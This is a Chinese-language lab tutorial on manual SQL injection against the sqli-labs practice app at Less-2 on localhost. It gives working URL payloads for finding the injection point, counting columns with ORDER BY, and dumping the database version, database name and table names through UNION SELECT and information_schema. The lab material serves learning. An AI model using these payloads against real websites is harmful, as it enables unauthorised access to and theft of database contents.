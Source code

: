 #### 第一步 判断注入点

```
http://localhost/sqli_labs/Less-2/?id=1 
http://localhost/sqli_labs/Less-2/?id=1 and 1=1
```

    判断有无注入点  and 1 = 1； true

**当注入点为字符型时，and 1=2 页面仍然可以执行**

**当注入点为数字型时，and 1=2 页面不能执行**

```
小技巧：判断类型时，可以使用id=2-1来查看，数字型则会返回第一个结果，相反字符型无法运算
```

**select * from ser where name = $name and 1=1**

 随便输入内容 == 报错 注入

    == 没有注入

#### 第二步 判断字段数（列数）

   猜解列名数量 order by           %20 空格
    group by    		//group by 一般注入时不会被防火墙发现

```
http://localhost/sqli_labs/Less-2/?id=1 order by 3  正确
http://localhost/sqli_labs/Less-2/?id=1 order by 4    报错
```

   猜解有几个字段      测试结果反馈3个字段

#### 第三步 判断回显点 union

**id=-1**

**因为这里****优先显示的是联合查询的第一个结果，而第二个结果未被显示**。

![1686740446661](image/1.1手工注入流程/1686740446661.png)

**所以我们只需要在这里****使联合查询的第一个结果不显示**（使前半段语句为假，则不返回任何内容）：

![1686740526745](image/1.1手工注入流程/1686740526745.png)

**我们发现  ”Your Login Name“  后显示的是第二个字段的内容**
**			“Password”         后显示的是第三个字段的内容

**说明Angelina是第二个字段的内容，I-kill-you是第三个字段的内容**

#### 第四步 信息收集

**数据库版本 version()    只有高版本才有系统库， 高版本：5.0以上          低版本：5.0以下**

* **系统库： ****infromation_schema**
* **数据库名称：database（）**
* **schemata表** (mysql服务器中所有**数据库信息**的表)
* **tables表** (mysql服务器中所有**表信息**的表)
* **columns表**（mysql服务器所有**列信息**的表）
* **table_schema 数据库名**
* **table_name 表名**
* **column_name 列名**
* . 下一级
  **infromation_schema.tables 查找表名**
  **infromation_schema.columns 查看列名**

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2 union select 1,version(),database()
//查询数据库版本和数据库名
```

![1686741066155](image/1.1手工注入流程/1686741066155.png)

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2  union select 1,table_name,3 from information_schema.tables where table_schema='security'
//显示security库中的第一张表
```

![1686741088652](image/1.1手工注入流程/1686741088652.png)

![]()

![]()

![]()

![]()

![]()
